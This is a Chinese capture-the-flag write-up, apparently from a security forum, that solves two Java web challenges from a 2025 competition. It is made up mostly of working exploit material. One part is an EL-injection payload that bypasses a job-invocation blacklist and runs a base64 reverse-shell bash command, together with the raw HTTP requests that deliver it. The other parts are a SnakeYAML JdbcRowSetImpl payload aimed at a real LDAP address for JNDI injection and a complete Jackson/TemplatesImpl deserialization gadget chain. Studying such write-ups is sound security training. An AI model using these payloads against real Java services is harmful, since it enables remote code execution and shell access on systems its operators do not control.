





# 2025第十届 “磐石行动”  java题目-先知社区

> **来源**: https://xz.aliyun.com/news/18834  
> **文章ID**: 18834

---

# web-jaba\_ez

这道题目在官方的wp里面是上传一个so文件然后使用System.load进行加载，但是我使用了另一种方法。

我们先看看漏洞点

```
@PostMapping({"/job/add"})
public Map<String, Object> addJob(@RequestBody ScheduledJob job) {
    Map<String, Object> result = new HashMap<>();
    if (containsBlacklist(job.getInvokeTarget())) {
        result.put(BindTag.STATUS_VARIABLE_NAME, "error");
        result.put("message", "包含非法字符");
        return result;
    }
    if (!containsWhitelist(job.getInvokeTarget())) {
        result.put(BindTag.STATUS_VARIABLE_NAME, "error");
        result.put("message", "目标不在白名单中");
        return result;
    }
    jobs.put(job.getJobName(), job);
    result.put(BindTag.STATUS_VARIABLE_NAME, "success");
    result.put("message", "任务添加成功");
    result.put("jobId", job.getJobName());
    return result;
}

@PostMapping({"/job/run/{jobName}"})
public Map<String, Object> runJob(@PathVariable String jobName) {
    Map<String, Object> result = new HashMap<>();
    ScheduledJob job = jobs.get(jobName);
    if (job == null) {
        result.put(BindTag.STATUS_VARIABLE_NAME, "error");
        result.put("message", "任务不存在");
        return result;
    }
    try {
        invokeMethod(job.getInvokeTarget());
        result.put(BindTag.STATUS_VARIABLE_NAME, "success");
        result.put("message", "任务执行成功");
    } catch (Exception e) {
        result.put(BindTag.STATUS_VARIABLE_NAME, "error");
        result.put("message", e.getMessage());
        result.put("stackTrace", e.getStackTrace()[0].toString());
    }
    return result;
}

```

可以看到这里有一个添加job的功能，和一个执行job的功能

注意观察

```
        if (containsBlacklist(job.getInvokeTarget())) {
            result.put(BindTag.STATUS_VARIABLE_NAME, "error");
            result.put("message", "包含非法字符");
            return result;
        }
        if (!containsWhitelist(job.getInvokeTarget())) {
            result.put(BindTag.STATUS_VARIABLE_NAME, "error");
            result.put("message", "目标不在白名单中");
            return result;
        }
```

具有黑名单和白名单

我们查看这部分的逻辑

```
    private static Map<String, ScheduledJob> jobs = new HashMap();
    private static final String[] JOB_BLACKLIST = {"java.net.URL", "javax.naming.InitialContext", "org.yaml.snakeyaml", "org.springframework", "org.apache", "rmi", "ldap", "ldaps", "http", "https"};
    private static final String[] JOB_WHITELIST = {"com.jabaez.FLAG"};

 private boolean containsBlacklist(String str) {
        if (str == null) {
            return false;
        }
        String lowerStr = str.toLowerCase();
        for (String blackItem : JOB_BLACKLIST) {
            if (lowerStr.contains(blackItem.toLowerCase())) {
                return true;
            }
        }
        return false;
    }

    private boolean containsWhitelist(String str) {
        if (str == null) {
            return false;
        }
        for (String whiteItem : JOB_WHITELIST) {
            if (str.contains(whiteItem)) {
                return true;
            }
        }
        return false;
    }
```

发现黑名单禁用了

```
"java.net.URL", "javax.naming.InitialContext", "org.yaml.snakeyaml", "org.springframework", "org.apache", "rmi", "ldap", "ldaps", "http", "https"
```

为什么会禁用这些呢，我们看下面执行的逻辑

```
    private Object invokeMethod(String invokeTarget) throws Exception {
        int hashIndex = invokeTarget.indexOf(35);
        if (hashIndex == -1) {
            throw new IllegalArgumentException("Invalid format, expected: className#methodName(params)");
        }
        String className = invokeTarget.substring(0, hashIndex);
        String methodAndParams = invokeTarget.substring(hashIndex + 1);
        int paramStart = methodAndParams.indexOf(40);
        int paramEnd = methodAndParams.lastIndexOf(41);
        if (paramStart == -1 || paramEnd == -1) {
            throw new IllegalArgumentException("Invalid method format");
        }
        String methodName = methodAndParams.substring(0, paramStart);
        String paramStr = methodAndParams.substring(paramStart + 1, paramEnd);
        Class<?> clazz = Class.forName(className);
        List<Object> paramValues = new ArrayList<>();
        List<Class<?>> paramTypes = new ArrayList<>();
        if (!paramStr.trim().isEmpty()) {
            String[] params = splitParams(paramStr);
            for (String str : params) {
                String param = str.trim();
                if (param.startsWith("'") && param.endsWith("'")) {
                    String value = param.substring(1, param.length() - 1);
                    paramValues.add(value);
                    paramTypes.add(String.class);
                } else if (param.equals(BeanDefinitionParserDelegate.NULL_ELEMENT)) {
                    paramValues.add(null);
                    paramTypes.add(String.class);
                } else if (param.matches("\d+")) {
                    paramValues.add(Integer.valueOf(Integer.parseInt(param)));
                    paramTypes.add(Integer.TYPE);
                } else if (param.equals("true") || param.equals("false")) {
                    paramValues.add(Boolean.valueOf(Boolean.parseBoolean(param)));
                    paramTypes.add(Boolean.TYPE);
                } else {
                    paramValues.add(param);
                    paramTypes.add(String.class);
                }
            }
        }
        try {
            Method method = clazz.getMethod(methodName, (Class[]) paramTypes.toArray(new Class[0]));
            if (Modifier.isStatic(method.getModifiers())) {
                return method.invoke(null, paramValues.toArray());
            }
            Object instance = clazz.newInstance();
            return method.invoke(instance, paramValues.toArray());
        } catch (NoSuchMethodException e) {
            Method method2 = clazz.getDeclaredMethod(methodName, (Class[]) paramTypes.toArray(new Class[0]));
            method2.setAccessible(true);
            if (Modifier.isStatic(method2.getModifiers())) {
                return method2.invoke(null, paramValues.toArray());
            }
            Object instance2 = clazz.newInstance();
            return method2.invoke(instance2, paramValues.toArray());
        }
    }

```

注意观察这一块

```
 try {
            Method method = clazz.getMethod(methodName, (Class[]) paramTypes.toArray(new Class[0]));
            if (Modifier.isStatic(method.getModifiers())) {
                return method.invoke(null, paramValues.toArray());
            }
            Object instance = clazz.newInstance();
            return method.invoke(instance, paramValues.toArray());
        } catch (NoSuchMethodException e) {
            Method method2 = clazz.getDeclaredMethod(methodName, (Class[]) paramTypes.toArray(new Class[0]));
            method2.setAccessible(true);
            if (Modifier.isStatic(method2.getModifiers())) {
                return method2.invoke(null, paramValues.toArray());
            }
            Object instance2 = clazz.newInstance();
            return method2.invoke(instance2, paramValues.toArray());
        }
```

可以获取public方法和private方法进行执行，参数类型只能是String，Boolean，Integer

这时候看黑名单，以我们的基础可以知道一次调用rce有，URL是远程加载jar，InitialContext是进行jndi注入的，snakeyaml是snakeyaml反序列化等等

白名单就是一个简单的限制

可以看到目标不能在黑名单，也必须在白名单里面

使用https://github.com/yezere/codeql\_n1ght工具方便生成数据库



用自己的ql脚本查看

```
import java
import ql.libs.DangerousMethods

from DangerousMethod d
select d,d.getQualifiedName()
```

可以看到



看到了eval表达式注入

其中，可以调用任意方法，我们可以el表达式注入反弹shell

```
package com.jabaez;

import com.alibaba.fastjson.JSON;
import org.springframework.beans.factory.xml.BeanDefinitionParserDelegate;

import javax.el.ELProcessor;
import java.lang.reflect.Method;
import java.lang.reflect.Modifier;
import java.nio.charset.Charset;
import java.util.*;

public class Test {
    public static void main(String[] args) throws Exception {
        VulnController.ScheduledJob scheduledJob = new VulnController.ScheduledJob();
        scheduledJob.setJobName("aaa");
        scheduledJob.setCronExpression("aaa");
        scheduledJob.setInvokeTarget("javax.el.ELProcessor#eval({'com.jabaez.FLAG'.getClass().forName('java.lang.Runtime').getMethod('exec',''.getClass()).invoke(''.getClass().forName('java.lang.Runtime').getMethod('getRuntime').invoke(null),'bash -c {echo,base64反弹shell}|{base64,-d}|{bash,-i}')})");
        Object o = invokeMethod("javax.el.ELProcessor#eval({''.getClass().forName('java.lang.Runtime').getMethod('exec',''.getClass()).invoke(''.getClass().forName('java.lang.Runtime').getMethod('getRuntime').invoke(null),'bash -c {echo,base64反弹shell}|{base64,-d}|{bash,-i}')})");
        System.out.println(o);
        System.out.println(JSON.toJSONString(scheduledJob));

    }
    private static String[] splitParams(String paramStr) {
        List<String> params = new ArrayList<>();
        int bracketLevel = 0;
        int start = 0;
        for (int i = 0; i < paramStr.length(); i++) {
            char c = paramStr.charAt(i);
            if (c == '(' || c == '{' || c == '[') {
                bracketLevel++;
            } else if (c == ')' || c == '}' || c == ']') {
                bracketLevel--;
            } else if (c == ',' && bracketLevel == 0) {
                params.add(paramStr.substring(start, i));
                start = i + 1;
            }
        }
        if (start < paramStr.length()) {
            params.add(paramStr.substring(start));
        }
        return (String[]) params.toArray(new String[0]);
    }
    private static  Object invokeMethod(String invokeTarget) throws Exception {
        int hashIndex = invokeTarget.indexOf(35);
        if (hashIndex == -1) {
            throw new IllegalArgumentException("Invalid format, expected: className#methodName(params)");
        }
        String className = invokeTarget.substring(0, hashIndex);
        String methodAndParams = invokeTarget.substring(hashIndex + 1);
        int paramStart = methodAndParams.indexOf(40);
        int paramEnd = methodAndParams.lastIndexOf(41);
        if (paramStart == -1 || paramEnd == -1) {
            throw new IllegalArgumentException("Invalid method format");
        }
        String methodName = methodAndParams.substring(0, paramStart);
        String paramStr = methodAndParams.substring(paramStart + 1, paramEnd);
        Class<?> clazz = Class.forName(className);
        List<Object> paramValues = new ArrayList<>();
        List<Class<?>> paramTypes = new ArrayList<>();
        if (!paramStr.trim().isEmpty()) {
            String[] params = splitParams(paramStr);
            for (String str : params) {
                String param = str.trim();
                if (param.startsWith("'") && param.endsWith("'")) {
                    String value = param.substring(1, param.length() - 1);
                    paramValues.add(value);
                    paramTypes.add(String.class);
                } else if (param.equals(BeanDefinitionParserDelegate.NULL_ELEMENT)) {
                    paramValues.add(null);
                    paramTypes.add(String.class);
                } else if (param.matches("\d+")) {
                    paramValues.add(Integer.valueOf(Integer.parseInt(param)));
                    paramTypes.add(Integer.TYPE);
                } else if (param.equals("true") || param.equals("false")) {
                    paramValues.add(Boolean.valueOf(Boolean.parseBoolean(param)));
                    paramTypes.add(Boolean.TYPE);
                } else {
                    paramValues.add(param);
                    paramTypes.add(String.class);
                }
            }
        }
        try {
            Method method = clazz.getMethod(methodName, (Class[]) paramTypes.toArray(new Class[0]));
            if (Modifier.isStatic(method.getModifiers())) {
                return method.invoke(null, paramValues.toArray());
            }
            Object instance = clazz.newInstance();
            return method.invoke(instance, paramValues.toArray());
        } catch (NoSuchMethodException e) {
            Method method2 = clazz.getDeclaredMethod(methodName, (Class[]) paramTypes.toArray(new Class[0]));
            method2.setAccessible(true);
            if (Modifier.isStatic(method2.getModifiers())) {
                return method2.invoke(null, paramValues.toArray());
            }
                Object instance2 = clazz.newInstance();
            return method2.invoke(instance2, paramValues.toArray());
        }
    }
}

```



添加job

```
POST /api/job/add HTTP/1.1
Host: ip:port
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/json

{"cronExpression":"aaa","invokeTarget":"javax.el.ELProcessor#eval({'com.jabaez.FLAG'.getClass().forName('java.lang.Runtime').getMethod('exec',''.getClass()).invoke(''.getClass().forName('java.lang.Runtime').getMethod('getRuntime').invoke(null),'bash -c {echo,base64反弹shell}|{base64,-d}|{bash,-i}')})","jobName":"aaa"}
```

运行job

```
POST /api/job/run/aaa HTTP/1.1
Host: pss.idss-cn.com:21970
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/json
```



# web\_ezyaml

简单题

```
        Yaml yaml = new Yaml();
        yaml.loadAs("!!com.sun.rowset.JdbcRowSetImpl
" +
                " dataSourceName: "ldap://112.124.59.213:1389/Deserialize/Jackson/Echo"
" +
                " autoCommit: true",Object.class);
```

jndi注入

反序列化链子

```
package com.example.ezyaml.controller;

import com.fasterxml.jackson.databind.node.POJONode;
import com.n1ght.javassist.TomcatEcho;
import com.n1ght.reflect.ReflectTools;
import com.n1ght.serial.SerialTools;
import com.sun.org.apache.bcel.internal.Repository;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.*;
import org.springframework.aop.framework.AdvisedSupport;
import org.yaml.snakeyaml.Yaml;

import javax.xml.transform.Templates;
import java.io.Serializable;
import java.lang.reflect.*;
import java.lang.reflect.Modifier;
import java.util.HashMap;
import java.util.Map;
import java.util.Scanner;

import static com.n1ght.reflect.ReflectTools.createWithoutConstructor;
import static com.n1ght.reflect.ReflectTools.setFieldValue;

public class Test {
    private static final String[] blacklist = new String[]{"ClassPath", "DataSource", "URLClassLoader", "ScriptEngine"};

    public static void main(String[] args) throws Exception{
        TemplatesImpl templatesImpl = new TemplatesImpl();
      	
        setFieldValue(templatesImpl, "_name", "Hello");
        setFieldValue(templatesImpl, "_bytecodes", new byte[][]{TomcatEcho.commandEcho()});
        setFieldValue(templatesImpl, "_tfactory", new TransformerFactoryImpl());
        ClassPool pool = ClassPool.getDefault();
        CtClass ctClass = pool.get("com.fasterxml.jackson.databind.node.BaseJsonNode");

        if (!ctClass.isFrozen()) {
            CtMethod ctMethod = ctClass.getDeclaredMethod("writeReplace");
            ctClass.removeMethod(ctMethod);
            ctClass.freeze();
            ctClass.toClass();
        }

        AdvisedSupport as = new AdvisedSupport();
        as.setTarget(templatesImpl);

        Constructor constructor = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy").getDeclaredConstructor(AdvisedSupport.class);
        constructor.setAccessible(true);
        InvocationHandler jdkDynamicAopProxyHandler = (InvocationHandler) constructor.newInstance(as);

        Templates templatesProxy = (Templates) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{Templates.class}, jdkDynamicAopProxyHandler);

        POJONode pojoNode = new POJONode(templatesProxy);
        HashMap hashMap = HashMapToString(pojoNode, pojoNode);
        String s1 = SerialTools.base64Serial(hashMap);
        System.out.println(s1);
        SerialTools.base64DeSerial(s1);
    }
    public static HashMap HashMapToString(Object o1, Object o2) throws Exception{
        Map tHashMap1 = (Map) createWithoutConstructor(Class.forName("javax.swing.UIDefaults$TextAndMnemonicHashMap"));
        Map tHashMap2 = (Map) createWithoutConstructor(Class.forName("javax.swing.UIDefaults$TextAndMnemonicHashMap"));
        tHashMap1.put(o1,null);
        tHashMap2.put(o2,null);
        setFieldValue(tHashMap1,"loadFactor",1);
        setFieldValue(tHashMap2,"loadFactor",1);
        HashMap hashMap = new HashMap();
        Class node = Class.forName("java.util.HashMap$Node");
        Constructor constructor = node.getDeclaredConstructor(int.class, Object.class, Object.class, node);
        constructor.setAccessible(true);
        Object node1 = constructor.newInstance(0, tHashMap1, null, null);
        Object node2 = constructor.newInstance(0, tHashMap2, null, null);
        Field key = node.getDeclaredField("key");
        Field modifiers = Field.class.getDeclaredField("modifiers");
        modifiers.setAccessible(true);
        modifiers.setInt(key, key.getModifiers() & ~Modifier.FINAL);
        key.setAccessible(true);
        key.set(node1, tHashMap1);
        key.set(node2, tHashMap2);
        Field size = HashMap.class.getDeclaredField("size");
        size.setAccessible(true);
        size.set(hashMap, 2);
        Field table = HashMap.class.getDeclaredField("table");
        table.setAccessible(true);
        Object arr = Array.newInstance(node, 2);
        Array.set(arr, 0, node1);
        Array.set(arr, 1, node2);
        table.set(hashMap, arr);
        return hashMap;
    }
}

```


